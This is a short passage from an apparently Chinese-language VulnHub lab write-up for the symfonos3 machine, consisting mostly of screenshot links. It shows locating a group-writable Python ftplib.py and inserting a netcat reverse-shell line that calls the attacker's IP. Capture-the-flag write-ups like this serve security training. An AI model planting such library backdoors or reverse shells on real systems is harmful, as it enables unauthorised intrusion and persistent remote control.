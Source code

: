 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos3/28.png)

改这个库试试
```bash
find / -name ftplib*
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos3/29.png)

```bash
cd /usr/lib/python2.7/
ls -l | grep ftplib.py
```

root 和 god 组可以修改,hades 正好是 god 组的 :)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos3/30.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos3/31.png)

```bash
vi /usr/lib/python2.7/ftplib.py

os.system("nc -nv 192.168.141.134 5555 -e /bin/bash")
```
